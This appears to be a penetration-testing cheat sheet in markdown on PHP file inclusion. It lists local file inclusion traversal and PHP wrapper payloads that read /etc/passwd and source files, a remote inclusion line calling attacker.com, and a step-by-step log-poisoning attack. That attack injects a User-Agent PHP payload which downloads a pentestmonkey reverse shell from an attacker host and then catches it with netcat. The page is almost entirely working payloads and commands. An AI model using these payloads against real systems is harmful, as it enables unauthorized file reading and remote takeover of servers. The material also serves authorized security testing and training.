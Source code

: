 ```yaml
---
title: File Inclusion
desc: 
tags: [Burp Suite, LFI, Netcat, Reverse Shell, RFI, Web]
alts: [Directory-Traversal, Reverse-Shell]
render_with_liquid: false
---
```


## 1. Local File Inclusion (LFI)

```sh
/index.php?page=/etc/passwd
/index.php?page=../../../../etc/passwd
/index.php?page=../../../../../etc/passwd
/index.php?page=..//..//..//..//..//etc/passwd
/index.php?page=../../../../../../../../../../../../../../etc/passwd
/index.php?page=..%5c..%5c..%5c..%5cetc/passwd
/index.php?page=..%252f..%252f..%252f..%252fetc/passwd
/index.php?page=/etc/passwd%00
/index.php?page=/etc/passwd%00.inc
/index.php?page=/etc/passwd%00.php
/index.php?page=http://localhost/index
/index.php?page=http:%5c%5cindex
/index.php?page=http:%252f%252findex
/index.php?page=somedir/../../../../etc/passwd&ext=

# PHP Filter
/index.php?page=php://filter/resource=/etc/passwd
/index.php?page=php://filter/read=string.rot13/resource=index.php
/index.php?page=php://filter/convert.base64-encode/resource=index.php
/index.php?page=pHp://filter/convert.base64-encode/resource=index.php
/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
/index.php?page=data://text/plain,<?php echo base64_encode(file_get_contents(“index.php”)); ?>

# Windows
/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

<br />

## 2. Remote File Inclusion (RFI)

```
/index.php?page=//attacker.com/exploit
```

<br />

## 3. Log Poisoning

1. **Check if You Can Access the Apache Log File**

    ```
    /index.php?page=../../../../var/log/apache2/access.log
    ```

2. **Prepare the Payload for PHP Reverse Shell**

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit the values in the payload
    $ip = '<attacker-ip>';
    $port = 4444;
    ```

3. **Open Web Server in Your Local Machine**

    By doing so, 

    ```sh
    python -m http.server 80
    ```

4. **Inject PHP Payload in the User-Agent**

    Send the GET Request with abusing the User-Agent.  
    The payload can be uploaded to the "/shell.php" of the target website.

    ```
    GET / HTTP/1.1
    ...
    User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
    ```

5. **Apply the Injection**

    To do so, refresh the page "/index.php?page=../../../../var/log/apache2/access.log".

6. **Open Listener for Reverse Shell**

    In you local machine, open the listener.  
    You need to specify the port which you set the section 2.

    ```sh
    nc -lvnp 4444
    ```

7. **Gain Access to Shell**

    Access to "/shell.php" of the target website.  
    If it goes well, you can get a shell.